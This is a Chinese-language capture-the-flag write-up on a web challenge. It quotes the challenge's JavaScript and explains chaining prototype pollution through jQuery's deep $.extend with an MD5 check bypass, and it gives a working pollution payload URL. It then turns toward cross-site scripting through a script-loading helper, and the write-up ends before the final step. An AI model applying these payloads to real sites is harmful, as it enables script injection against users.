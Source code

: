 ```javascript
        let s = document.createElement('script')
        s.src = src
        $('head').append(s)
    }
}


const infobox = (text) => {
    $('a').css({'pointer-events': 'none', 'border': 'none'})
    $('.infobox').addClass('infoAnimate')
        .text(text)
        .on('animationend', function() {
            $(this).removeClass('infoAnimate')
            $('a').css({'pointer-events': 'all', 'border': 'solid 1px rgba(255, 255, 255, .25)'})
    })
    
}
```

阅读代码发现car类的repair方法会调用

`$.extend(true, this, JSON.parse(urlParams.get('repair')))
        `

可以进行原型链污染

而这一题我们的目标时进行xss

阅读代码发现对象`porsche`的repairWithHelper中可以进行xss

而调用repairWithHelper方法就需要调用porsche的repair方法

```
if($.md5(porsche) == '9cdfb439c7876e703e307864c9167a15'){
        if(urlParams.has('help')) {
            repairWithHelper(urlParams.get('help'))
        }
}
```

我们用控制porsche.toString()=='lol'(lol的md5是9cdfb439c7876e703e307864c9167a15)，我们可以通过原型链污染来让上层为`['lol']`(['lol'].toString()=='lol')



通过autoStart来调用bugatti.repair(原型链污染)和porsche.repair(调用repairWithHelper方法)

所以构造payload:`http://127.0.0.1/?repair={"started":true,"__proto__":{"__proto__":["lol"]}} `



接下来就是利用repairWithHelper来进行xss

```javascript
const repairWithHelper = (src) => {
    /* who needs csp anyways !? */
    urlRegx = /^\w{4,5}:\/\/car-repair-shop\.fluxfingersforfuture\.fluxfingers\.net\/[\w\d]+\/.+\.js$/;
    if (urlRegx.test(src)) {
        let s = document.createElement('script')
        s.src = src
        $('head').append(s)
    }
}
```
